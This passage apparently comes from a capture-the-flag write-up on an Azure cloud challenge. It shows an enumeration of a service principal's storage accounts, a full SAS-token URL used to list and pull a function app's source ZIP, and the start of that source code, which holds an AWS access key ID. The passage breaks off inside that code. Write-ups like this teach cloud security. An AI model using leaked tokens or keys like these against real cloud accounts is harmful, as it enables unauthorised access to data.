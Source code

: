 ```json
    },
    "tags": {},
    "type": "Microsoft.Storage/storageAccounts"
  }
]
```

It looks like this service principal has access to a different storage account, by the name of `meowvellousappstorage`. After discovering this storage blob name, we can use the provided SAS token to access the `scm-releases` container:

`https://meowvellousappstorage.blob.core.windows.net/scm-releases?restype=container&comp=list&sv=2018-11-09&sr=c&st=2022-09-01T00%3A00%3A00Z&se=2022-12-12T00%3A00%3A00Z&sp=rl&spr=https&sig=jENgCFTrC1mYM1ZNo%2F8pq1Hg9BO1VLbXlk%2FpABrK4Eo%3D`

This container contains a single ZIP file, `scm-latest-olympurr-app.zip`, which contains the source code of the function.

```markup
<EnumerationResults ServiceEndpoint="https://meowvellousappstorage.blob.core.windows.net/" ContainerName="scm-releases">
<Blobs>
<Blob>
<Name>scm-latest-olympurr-app.zip</Name>
<Properties>
<Creation-Time>Fri, 18 Nov 2022 03:26:09 GMT</Creation-Time>
<Last-Modified>Fri, 18 Nov 2022 03:26:09 GMT</Last-Modified>
<Etag>0x8DAC914A3100599</Etag>
<Content-Length>18616320</Content-Length>
<Content-Type>application/octet-stream</Content-Type>
<Content-Encoding/>
<Content-Language/>
<Content-MD5>odp8dya/HBVlw8Ij9/HYFg==</Content-MD5>
<Cache-Control/>
<Content-Disposition/>
<BlobType>BlockBlob</BlobType>
<AccessTier>Hot</AccessTier>
<AccessTierInferred>true</AccessTierInferred>
<LeaseStatus>unlocked</LeaseStatus>
<LeaseState>available</LeaseState>
<ServerEncrypted>true</ServerEncrypted>
</Properties>
</Blob>
</Blobs>
<NextMarker/>
</EnumerationResults>
```

This contains the source code of the function app.

## Goodbye Bill, Hello Jeff

```python
import boto3
import requests
import json

import azure.functions as func
from azure.identity import ManagedIdentityCredential
from azure.keyvault.secrets import SecretClient

functionName = "event-webservice"
keyName = "AKIA5G4XMRW7TLT6XD7R"

def logURL(url):
    identity = ManagedIdentityCredential()
```